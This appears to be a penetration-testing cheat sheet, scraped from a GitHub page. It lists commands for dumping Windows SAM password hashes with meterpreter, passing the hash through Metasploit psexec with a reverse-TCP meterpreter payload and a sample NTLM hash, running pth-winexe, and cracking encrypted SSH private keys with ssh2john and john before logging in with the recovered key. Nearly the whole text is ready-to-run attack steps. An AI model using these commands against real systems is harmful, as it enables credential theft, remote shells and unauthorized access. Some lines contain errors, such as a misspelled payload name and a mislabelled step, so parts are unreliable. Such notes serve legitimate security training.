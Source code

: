 - Dump the contents of local SAM file, which contains the hashed(NTLM) passwords for every local account on the machine
```
meterpreter> hashdump
```

- psexec via msfconsole
```
msf> search psexec

msf> use exploit/windows/smb/psexec

msf> set payload widnows/meterpreter/reverse_tcp
msf> set LHOST <your_ip>
msf> set LPORT <your_port>
msf> set RHOST <target_ip>
msf> set SMBPass e.g (e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c)
msf> exploit
```

#### pth-winexe
To do this, we will use pth-winexe579 from the Passing-The-Hash toolkit (a modified version of winexe), which performs authentication using the SMB protocol
```
> pth-winexe -U [specifying the user name and hash (in UNC format)] //[victim_ip] command
```

------------------------------------------------------------------------------------------------------------------------
# SSH key cracking

#### Cracking encrypted private key
- Tool: ssh2john.py
```
ssh2john.py encrypted-private-key > private-key.john
```

- Tool: john
```
john --wordlist=/usr/share/wordlists/rockyou.txt private-key.john
```

#### Unencrypted copy of the key
- Tool: openssl
```
openssl rsa -in encrypted-private-key -out id_rsa
```

- Tool: chmod
```
chmod 600 id_rsa
```

#### Login with id_rsa
- install crowbar
```
ssh -i id_rsa user-name@<ip>
```
